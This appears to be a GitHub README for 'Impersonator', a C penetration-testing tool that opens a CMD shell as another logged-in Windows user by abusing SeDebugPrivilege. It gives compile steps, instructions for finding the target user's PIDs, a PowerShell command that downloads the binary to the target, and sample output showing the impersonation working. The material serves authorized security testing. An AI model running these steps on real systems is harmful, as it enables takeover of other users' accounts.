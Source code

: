 ### Impersonator
---------------------------------------
This C program enables a user with local administrator rights on a Windows machine to launch a CMD console under the context of another logged-in Windows account (impersonation), leveraging the 'SeDebugPrivilege'. 
The program requires the process ID (PID) of the target account's session as an input argument.

It can be particularly useful during internal penetration tests, when you have full control over a Windows server and aim to compromise another privileged account currently logged into the system.

#### USAGE
- STEP 1 - Compile the source code.  
```
Example with Visual Studio 2022 Developer Command Prompt v17.14.14:
-------------------------------------------------------------------
Basic:
+ c:\path-to-project\Impersonator> cl impersonator.c /link advapi32.lib
With an icon:
+ c:\path-to-project\Impersonator> echo IDI_ICON1 ICON "myicon.ico" > appicon.rc
+ c:\path-to-project\Impersonator> rc appicon.rc
+ c:\path-to-project\Impersonator> cl impersonator.c /link advapi32.lib /OUT:impersonator.exe appicon.res
```

- STEP 2 - On your target Windows machine, run the command 'tasklist -v' to display all running processes along with detailed information.
The objective is to identify all the PIDs belonging to the other logged-in Windows account that you want to impersonate.
```
Example
--------
C:\Temp> tasklist -v

Image Name                     PID Session Name        Session#    Mem Usage Status          User Name                                              CPU Time Window Title   
========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================
<SNIP>
cmd.exe                      16196 Console                    4      5,528 K Running         LAB\pentester                                            0:00:00 Administrator: Command Prompt - tasklist  -v
conhost.exe                  14620 Console                    4     22,828 K Running         LAB\pentester                                            0:00:01 N/A            
cmd.exe                      11052 Console                    4      5,324 K Running         LAB\targetprivuser                                       0:00:00 C:\Windows\system32\cmd.exe 
conhost.exe                  12432 Console                    4     17,696 K Running         LAB\targetprivuser                                       0:00:00 N/A            
notepad.exe                  13044 Console                    4     15,004 K Running         LAB\targetprivuser                                       0:00:00 Sans titre - Bloc-notes             
<SNIP>
```

- STEP 3 - Upload and use the tool 'impersonator' to launch a CMD console under the context of the other logged-in Windows account that you want to impersonate.
```
Example - Acting as the account 'LAB\pentester' (admin rights), we impersonate the account 'LAB\targetprivuser'
----------------------------------------------------------------------------------------------------------------
C:\Temp> powershell -c "wget -uri https://URL/impersonator.exe - OutFile C:\temp\impersonator.exe"

C:\Temp> impersonator.exe 13044
[+] SeDebugPrivilege enabled.
[+] cmd.exe launched as target user!

=> A new CMD is launched as 'LAB\targetprivuser'
   ----------------------------------------------
	 Microsoft Windows [version 10.0.19045.6332]
	 (c) Microsoft Corporation. Tous droits réservés.

	 C:\Windows\system32> whoami
	 LAB\targetprivuser
<SNIP>
```



#### LICENSE
GNU General Public License v3.0
